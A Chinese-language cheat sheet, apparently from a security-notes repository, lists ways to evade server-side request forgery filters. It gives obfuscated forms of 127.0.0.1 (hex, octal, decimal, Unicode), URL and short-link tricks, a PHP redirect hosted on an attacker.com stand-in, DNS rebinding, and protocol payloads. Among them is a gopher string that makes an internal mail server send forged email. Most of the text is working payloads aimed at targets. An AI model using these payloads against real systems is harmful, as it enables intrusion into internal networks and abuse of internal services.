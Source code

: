 ## 使用封闭式字母数字绕过

封闭式字母数字是一个Unicode块，其中包含圆形，支架或其他非封闭外壳内的字母数字印刷符号，或以句号结尾。系统支持封闭式字母数字的解析。

下图为由封闭式字母数字构造的127.0.0.1地址，可以看到被正常解析。

![image-20200713154255844](images/image-20200713154255844.png)

## 使用中文句号绕过

如果`.`符号被禁用，可以尝试用`。`代替`.`

![image-20200713155048051](images/image-20200713155048051.png)

## 使用十六进制编码绕过

```
127.0.0.1 -> 0x7F000001
127.0.0.1 -> 0x7f.0x0.0x0.0x1
```



![image-20200713161310881](images/image-20200713161310881.png)

![image-20200713161425324](images/image-20200713161425324.png)

## 使用八进制编码绕过

```
127.0.0.1 -> 0177.0.0.01
```

![image-20200713161524588](images/image-20200713161524588.png)

## 使用十进制绕过

```
127.0.0.1 -> 2130706433
```

![image-20200713161750305](images/image-20200713161750305.png)

## 使用特殊地址绕过

```
http://0/
```

![image-20200713162903353](images/image-20200713162903353.png)

## 使用IPv6地址绕过

使用IPv6地址而不是IPv4地址，因为服务器可能尚未针对IPv6实施而实施了针对IPv4的保护机制。

## URL地址过滤绕过

`http://www.baidu.com@10.10.10.10` 与 `http://10.10.10.10` 请求是相同的。

## 使用短域名绕过

申请短域名指向内网地址：

```
http://192.168.31.1 -> http://suo.im/1QLXa2
```

## 使用xip.io绕过

![image-20200713162303794](images/image-20200713162303794.png)

## 使用重定向漏洞绕过

使服务器请求你所控制的URL重定向到黑名单地址。例如可以在自己可控的Web服务器上托管如下内容的文件：

```
<？php header（“location：http：//127.0.0.1”）;？>
```

假设此文件位于`http://attakcer.com/redirect.php`，这样当你的目标服务器请求`http://attakcer.com/redirect.php`，目标服务器实际上被重定向到`http://127.0.0.1`，这是一个受限制的内部地址。

##  使用DNS欺骗绕过

修改可控的域的A记录或者AAAA记录，并使其指向受害者网络的内部地址。例如，假设`http://attacker.com`是你可控的子域名。你可以创建自定义主机名到IP地址映射，使得`http://subdomain.attacker.com`解析到`127.0.0.1`。现在当目标服务器请求`http://attacker.com`，它会认为你的域位于`127.0.0.1`，并从改地址请求数据。

也可以利用**DNS投毒**去修改DNS服务器的域名映射记录。

## 利用协议绕过

```
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
```

## 其他

更多的绕过姿势可以参考：

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Request Forgery)
